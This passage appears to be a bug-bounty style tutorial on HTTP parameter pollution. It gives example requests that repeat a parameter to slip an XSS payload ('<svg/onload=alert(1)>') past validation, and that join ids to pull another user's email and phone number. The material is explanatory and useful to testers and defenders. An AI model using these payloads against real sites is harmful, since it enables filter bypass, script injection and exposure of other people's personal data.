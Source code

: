 ## 1 - All occurrences of specific parameter :
  This means that if we parse the same name parameters like q=hello&q=”><svg/onload=alert(1)> the check will be performed on both the parameters because they have the same name. In All occurrences, the barrier is if the back-end logic is configured to allow a specific parameter only 1 time then appending another parameter (q=hello&q=”><svg/onload=alert(1)>) of same name will give you an error.

<br></br>
Request :
```
POST /details HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0

id=100&id=101
```
Response :
```
HTTP/1.1 403
server: nginx
content-type: application/json
cache-control: no-cache, private
```
HTTP Parameter Pollution Request :
```
POST /details HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0

id=100,101
```
HTTP Parameter Pollution Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private

{

"email":"yourmail@gmail.com","phoneNumber":+91-9999999999,"email":"victim@gmail.com","phoneNumber":+91-8888888888

}
```

## 2 - First occurrence :
  First occurrence means a web application performs input validation on the first parameter which makes it vulnerable to second parameter which should be of same name.

Request :
```
GET /search?q="><svg/onload=alert(1)> HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
```
Response :
```
HTTP/1.1 403 Forbidden
server: nginx
content-type: application/json
cache-control: no-cache, private
```
HTTP Parameter Pollution Request :
```
GET /search?q=Hello&q="><svg/onload=alert(1)> HTTP/1.1
```